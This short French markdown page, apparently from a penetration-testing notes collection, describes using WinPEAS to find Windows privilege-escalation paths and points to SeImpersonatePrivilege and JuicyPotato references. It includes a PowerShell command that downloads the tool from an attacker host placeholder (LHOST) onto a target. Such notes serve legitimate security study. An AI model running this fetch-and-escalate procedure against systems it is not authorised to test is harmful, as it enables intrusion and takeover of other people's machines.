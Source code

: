 <sub>[Procédure serveur](server_procedure.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Cryptage](cryptage.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Outils](tools.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Sites utiles](useful_website.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Lexique](lexique.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Index](index.md)</sub>
<sub>[Retour](windows.md)</sub>
#WinPeas

**Présentation :**  .exe à éxecuter pour privilege escalation sur windows

**Procédure :**
- Télécharger winPeas : *powershell wget http://**LHOST**/winPEASx64.exe -outfile winPEASx64.exe*
- Exécuter : *./winPEAS.exe*
- si WINPEAS renvoie **SeImpersonatePrivilege** en rouge :
  - FAILLE SeImpersonatePrivilege :
    -  https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege
    -  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato

